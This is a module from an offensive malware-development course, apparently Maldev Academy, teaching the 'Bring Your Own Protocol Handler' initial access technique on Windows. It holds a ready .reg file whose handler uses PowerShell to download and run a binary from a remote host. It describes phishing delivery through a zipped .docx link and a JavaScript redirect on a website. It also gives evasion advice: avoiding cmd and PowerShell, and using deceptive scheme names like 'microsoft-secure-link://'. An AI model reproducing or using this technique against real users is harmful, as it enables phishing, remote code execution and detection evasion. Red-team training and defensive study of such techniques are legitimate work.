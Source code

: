 # 10.5 Bring Your Own Protocol Handler

### Introduction

This module will introduce a new initial access technique which will be referred to as "Bring Your Own Protocol Handler". This is a variation of a technique that was previously seen by malware where a custom protocol handler was registered and then executed by the malware.

### What is a Protocol Handler?

According to [Mozilla's Developer Docs](https://developer.mozilla.org/en-US/docs/Web/Manifest/protocol_handlers), protocol handlers serve the purpose of linking an application with a particular protocol scheme in the OS's application preferences. By registering a specific application to handle a given protocol scheme, such as "http://", "https://", or "tel://", protocol handlers ensure that when these schemes are utilized, they seamlessly integrate with the associated application for execution. Essentially, protocol handlers establish a connection between a protocol scheme and its designated application, enabling a streamlined and consistent user experience.

In the Windows OS, a protocol handler is registered using the Windows Registry. The important registry keys are shown below:

- `HKEY_LOCAL_MACHINE\SOFTWARE\Classes` - This key stores the protocol handler registrations for all users on the machine. This key requires administrator privileges to be modified.
    
- `HKEY_CURRENT_USER\Software\Classes` - This key stores the protocol handler registrations specific to the currently logged-in user. If the same key is registered in `HKEY_LOCAL_MACHINE\SOFTWARE\Classes` and `HKEY_CURRENT_USER\Software\Classes`, then `HKEY_CURRENT_USER\Software\Classes` takes precedence. This key does not require administrator privileges to modify.
    

The focus of this module will be on the `HKEY_CURRENT_USER` registry hive since it does not require administrator privileges to modify.

### Registering a Protocol Handler

There are several ways to register a protocol handler, two ways will be demonstrated, one through the Windows Registry and the other using a `.reg` file.

#### Using the Windows Registry

Begin by opening the Windows Registry and traversing to the `HKEY_CURRENT_USER\Software\Classes` registry key.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-1000298.png)

Right-click the `Classes` key and select 'New' > 'Key'. When prompted for a name for the new key enter **sample**.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-2037842.png)

Traverse to the newly created key, `HKEY_CURRENT_USER\Software\Classes\sample`, right-click the default value and select 'Modify'.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-3137842.png)

When prompted for a value insert 'URL: Sample Protocol'.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-3037842.png)

Right-click the 'sample' registry key and select 'String Value'. Modify the newly created registry value to 'URL Protocol'.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-40378322.png)

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-5178412.png)

Next, create 3 hierarchical subkeys:

- `HKEY_CURRENT_USER\Software\Classes\sample\shell`
    
- `HKEY_CURRENT_USER\Software\Classes\sample\shell\open`
    
- `HKEY_CURRENT_USER\Software\Classes\sample\shell\open\command`
    

And finally, inside the `HKEY_CURRENT_USER\Software\Classes\sample\shell\open\command` key, change the default value to `cmd.exe /c whoami && timeout /t`.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-reg-gui-62921823.png)

To test the newly registered protocol handler, open any browser and enter "sample://anything" into the URL address bar. The value after the two slashes does not matter.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-invoke-reg-gui-122.png)

The command under the `HKEY_CURRENT_USER\Software\Classes\sample\shell\open\command` key will execute upon confirming the prompt.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-invoke-reg-gui-222.png)

#### Using .reg Files

Create and open a `.reg` file using any text editor (e.g. notepad) and paste the following snippet. The snippet below will create the keys and values that were done in the previous section.

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\sample]
@="URL:Sample Protocol"
"URL Protocol"=""

[HKEY_CURRENT_USER\Software\Classes\sample\shell]

[HKEY_CURRENT_USER\Software\Classes\sample\shell\open]

[HKEY_CURRENT_USER\Software\Classes\sample\shell\open\command]
@="cmd.exe /c whoami.exe && timeout /t 10"
```

Double-click the `.reg` file and click 'Yes' on the prompt that appears. This will auto-insert all the necessary keys and values. Validate this by checking if the `HKEY_CURRENT_USER\Software\Classes\sample` registry key was successfully created.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-double-click-reg-12222220.png)

### Initial Access Technique

With the previous sections in mind, this initial access technique will utilize a `.reg` file that registers a protocol handler which downloads and executes a malicious binary. To execute the newly registered protocol handler, a `.docx` file with an embedded link that uses the newly registered protocol handler will be sent with the `.reg` file. Both files will be zipped to make it more convenient for the target user.

#### .reg File Setup

The `.reg` file shown below will user `Powershell.exe` to download a payload and then execute it. The payload in this example is simply a Msfvenom calc executable.

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\ping]
@="URL:Ping Protocol"
"URL Protocol"=""

[HKEY_CURRENT_USER\Software\Classes\ping\shell]

[HKEY_CURRENT_USER\Software\Classes\ping\shell\open]

[HKEY_CURRENT_USER\Software\Classes\ping\shell\open\command]
@="powershell.exe -command \"(New-Object System.Net.WebClient).DownloadFile('http://example.com/mal.exe', 'C:\\mr.d0x\\out.exe'); cmd.exe /c C:\\mr.d0x\\out.exe\""
```

#### .docx File Setup

For the `.docx` file, simply create a link and add "ping://anything" as the URL.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-docx-file.png)

### Video Demo (1)

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-double-click-reg-12222220.png)](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-demo-1229102944.mp4)

### In-browser execution

Instead of delivering a `.docx` file with an embedded link, it's possible to embed the protocol handler within your website. If the user downloads and runs the `.reg` file, then clicking the link executes the malicious code. Note that it's also possible to redirect the user to any protocol using JavaScript. The snippet below will redirect the user to "sample://microsoft", whether it executes or not will depend on whether the user has that protocol handler registered.

```
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Maldev Academy</title>
</head>
<body>

	JavaScript is being executed.

<script type="text/javascript">
	 window.location.href = "sample://microsoft"
</script>

</body>
</html>
```

### Video Demo (2)

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-two/website-demo-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-two/byoph-website-demo.mp4)

### Opsec

This technique provides red teamers a significant amount of flexibility in what they can do. Keep in mind that the demo shown above lacks operational security considerations. It's recommended to avoid spawning `cmd.exe` or `powershell.exe` and instead, consider utilizing a LOLBIN or creating innovative methods to avoid the need to launch these two suspicious processes.

Additionally, consider registering a more "trustworthy" appearing protocol handler. Below are some examples:

- microsoft-secure-link://
    
- google://
    
- secure://
    

### Conclusion

Protocol handlers are registered with many legitimate applications and therefore defenders are unlikely to have rules detecting newly registered protocol handlers. Additionally, once the protocol handler is registered, an attacker can take advantage of that immediately or at a later time. Leaving a window before executing the newly registered protocol handler may be an effective strategy.